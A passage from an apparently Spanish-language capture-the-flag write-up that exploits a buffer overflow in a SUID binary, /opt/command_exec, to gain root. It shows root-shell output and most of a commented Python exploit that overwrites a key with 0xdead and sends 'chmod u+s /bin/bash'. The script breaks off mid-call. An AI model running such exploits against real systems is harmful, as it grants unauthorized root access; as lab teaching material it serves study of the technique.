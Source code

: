 ```python
# Esto asegura que el binario termine su ejecución antes de finalizar el script.
process.wait()
```

Si lo ejecutamos vemos lo siguiente:

```shell
python3 exploit.py
```

Info:

```shell
Escribe la contraseña: Estás en modo administrador (key = dead)
Escribe un comando: uid=0(root) gid=0(root) groups=0(root)
```

### Ejecución de comando

Vemos que se esta ejecutando como `root` ya que el binario esta con permisos `SUID` por lo que vamos hacer lo siguiente para ser `root`:

> exploit.py

```python
#!/bin/python3

import subprocess

# 1. Offset para alcanzar la ubicación de la variable 'key' en la pila
# Este valor debe ser ajustado para coincidir con la cantidad de bytes que debemos sobrescribir
# antes de llegar a la variable 'key' o la dirección que queremos manipular.
offset = 76

# 2. Crear la parte del RIP (Return Instruction Pointer), utilizando 'A' para llenar la memoria.
# El RIP es el puntero de retorno en la pila, que en el caso de un desbordamiento de buffer puede
# sobrescribirse, permitiéndonos manipular la ejecución del programa.
# En este caso, 'A' es solo un carácter de relleno para alcanzar el valor deseado.
RIP = b"A" * offset

# 3. Representación de 0xdead en dos bytes: 0xad y 0xde.
# Queremos sobrescribir la variable 'key' con el valor 0xdead. Este valor se representa en hexadecimal
# como dos bytes: 0xad (más bajo) y 0xde (más alto).
dead = b"\xad\xde"

# 4. Comando adicional que se ejecutará al sobrescribir la 'key'.
# El comando 'chmod u+s /bin/bash' cambia los permisos de 'bash' para permitir que sea ejecutado
# con privilegios de usuario 'root' (SUID).
# Esto puede ser utilizado para obtener acceso de root al ejecutar el binario modificado.
command = b"chmod u+s /bin/bash"

# 5. Crear el payload final, que consiste en:
# - RIP: Llenamos con 'A' hasta llegar a la posición de la variable 'key'
# - dead: Sobrescribimos 'key' con 0xdead
payload = RIP + dead

# 6. Nombre del binario que vamos a ejecutar
# En este caso, es un binario llamado 'command_exec' que se encuentra en el directorio /opt y lo ejecuta directamente
program = ["/opt/command_exec"]

# 7. Ejecutar el binario con un proceso hijo utilizando Popen.
# Utilizamos stdin=subprocess.PIPE para poder enviar datos (el payload) al binario de forma controlada.
process = subprocess.Popen(
    program, stdin=subprocess.PIPE
```
